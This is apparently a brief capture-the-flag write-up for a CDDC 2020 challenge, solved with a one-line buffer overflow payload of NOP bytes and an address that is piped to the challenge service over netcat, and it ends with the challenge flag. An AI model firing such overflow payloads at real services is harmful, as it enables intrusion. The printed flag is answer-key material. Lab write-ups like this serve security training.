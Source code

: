 **Challenge**

While conducting reconnaissance on Unduplicitous Corp, we found a suspicious service. Let's figure out what this is.

ss.chall.cddc2020.nshc.sg 7777

Attached Files: [SuspiciousSvc](./attached_files/SuspiciousSvc)

**Solution**

Reverse engineering and buffer exploitation
python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | ./SUSsvc
Replace “./SUSsvc” with the netcat to the server. Flag will be returned

**Flag**

```
CDDC20{BufferrrrrrrrrOverflowwwwwwwwwwwwwwwwwwwww}
```

